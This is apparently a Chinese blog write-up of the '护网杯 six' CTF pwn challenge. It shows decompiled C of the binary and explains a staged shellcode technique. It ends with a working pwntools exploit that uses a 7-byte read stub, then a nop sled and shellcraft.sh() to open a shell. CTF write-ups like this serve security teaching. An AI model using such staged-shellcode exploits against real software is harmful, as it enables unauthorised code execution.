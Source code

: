 ```yaml
---
layout:     post
title:      护网杯six题解
subtitle:    护网杯six
date:       2018-12-27
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> six


# six

源码如图


```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (__fastcall *v3)(__int64, char *);  // ST08_8@1
  
  size_t v4; // rax@1
  
  char *v5; // rbx@1
  
  size_t v6; // rax@1
  
  int result; // eax@1
  
  __int64 v8; // rcx@1
  
  char s; // [sp+10h] [bp-20h]@1
  
  __int64 v10; // [sp+18h] [bp-18h]@1
  
  v10 = *MK_FP(__FS__, 40LL);
  mmap2();                                      // 分配两块地址 
  
                                                // dest可执行 
                                                
                                                // fake_stack可写可读 
                                                
  v3 = dest;                                    // dest地址赋值给v3 
  
  memset(&s, 0, 8uLL);
  puts("Show me your shellcode:");
  read(0, &s, 7uLL);
  check(&s, &s);
  v4 = strlen(src);
  memcpy(dest, src, v4);                        // src传到第一块内存中 
  
  v5 = dest;
  v6 = strlen(src);
  memcpy(&v5[v6], &s, 7uLL);                    // 将用户的输入传到src之后 
  
  v3(fake_stack, &s);                           // v3即调用我们的dest函数，参数为fake_stack 
  
  result = 0;
  v8 = *MK_FP(__FS__, 40LL) ^ v10;
  return result;
}

__int64 mmap2()
{
  int fd; // ST04_4@1
  
  __int64 buf; // [sp+8h] [bp-18h]@1 //buf低地址
  
  __int64 v3; // [sp+10h] [bp-10h]@1 //v3高地址
  
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  fd = open("/dev/urandom", 0);
  read(fd, &buf, 6uLL);
  read(fd, &v3, 6uLL);
  dest = mmap((v3 & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7, 34, -1, 0LL);  // dest可执行 
  
  fake_stack = mmap((buf & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 3, 34, -1, 0LL) + 1280;
  return *MK_FP(__FS__, 40LL) ^ v4;
}

__int64 __fastcall check(__int64 a1)
{
  __int64 result;   // rax@2
  
  signed int i; // [sp+18h] [bp-8h]@1
  
  int j; // [sp+1Ch] [bp-4h]@2

  for ( i = 0; i <= 6; ++i )
  {
    result = (i + 1);
    for ( j = i + 1; j <= 6; ++j )
    {
      result = *(j + a1);
      if ( *(i + a1) == result )
      {
        puts("Invalid shellcode!");
        exit(0);
      }
    }
  }
  return result;
}

```



其中check函数是用来检测我们写的shellcode是不是每个字节相同的。

对于src即我们的shellcode之前的那一段代码，

因为具有可执行性所以我们的代码是

![1545912100040](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/six.png)

把所有的寄存器都设为了0，并且把rsp指向了第二块申请内存的地址

所以这题的思路是，由于src将各寄存器都置0了，我们可以利用0号系统调用read输入进行第二次的shellcode输入，输入位置可以是rsp栈顶，rax=0表示0号调用read,rdi=0表示标准输入，rsi可以设置为rsp，表示输入到栈顶，rdx表示输入字节大小，这个不固定，只要能过judge就行。然后通过read输入shellcode覆盖这两块内存空间，直到覆盖过rip，最后在尾部加上调用shell的shellcode即可。这里我用nop填充。

最后脚本为

```python

from pwn import *
context(os="linux",arch="amd64",log_level="debug",endian="little")
context.terminal = ['tmux', 'split', '-h']
sh = process("./seven")
#gdb.attach(sh,"b read")
sh.recvuntil("Show me your shellcode:")

payload1 =asm("push rsp;pop rsi;mov edx,esi;syscall")
sh.sendline(payload1)
nop=asm("nop")
shell= asm(shellcraft.sh())

payload2=nop*0xb36+shell
sh.sendline(payload2)
sh.interactive()

```

至于那个长度b36，可以在调试的时候测试出来。

